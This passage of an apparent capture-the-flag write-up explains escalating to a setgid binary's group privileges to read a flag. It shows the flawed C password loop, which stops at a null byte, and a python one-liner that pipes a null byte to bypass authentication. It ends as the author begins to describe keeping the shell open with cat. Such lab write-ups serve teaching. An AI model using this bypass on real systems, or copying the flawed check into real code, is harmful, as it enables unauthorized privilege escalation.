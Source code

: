 ```console
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ ls -la
total 36
drwxr-xr-x  2 root privesca 4096 Aug 19 22:08 .
drwxr-xr-x 11 root root     4096 Aug 19 22:08 ..
-rwxr-x---  1 root privesca  220 Aug 31  2015 .bash_logout
-rwxr-x---  1 root privesca 3771 Aug 31  2015 .bashrc
-rwxr-x---  1 root privesca  655 Jun 24 15:44 .profile
-rwxr-sr-x  1 root privesca 8776 Aug 19 22:03 escalate
-r--r-----  1 root privesca   30 Aug 19 22:04 flag
$ ./escalate
Password: idk
Fail!
$
```

If you look closely, the escalate binary is a setgid binary. This means that
when run, the process adopts the privileges of the group that owns it. If we
somehow managed to take control of the process, we would effectively be able to
act with the privileges of that group. Which is incidentally what we need to
read that flag file.

The idea is to leverage a vulnerability in the way the program validates the
password. Look at these lines of code:

```c
    while (user_pass[index] != 0) {
        if (user_pass[index] != pass[index]) {
            return 0;
        }
```

Notice that the loop runs for as long as it receives no null bytes. If the
function returns zero, it means that the password was invalid. Otherwise, the
password is valid. This means that if we can avoid the entire loop altogether,
we can bypass the authentication completely. To do this, we simply provide a
string starting with a null byte to immediately halt the loop. We shall use some
python for this.

```console
$ python -c 'print "\x00"' | ./escalate
Password: Win!
$ id
uid=1001(escalate) gid=1001(escalate) groups=1001(escalate)
$
```

Notice that it says we have successfully authenticated which should have given
us a real nice elevated shell. However, notice that no extra privileges are
conferred yet. This is because the streams are closed. To get around this, we
use `cat` on `stdin` as our 'bridge'.
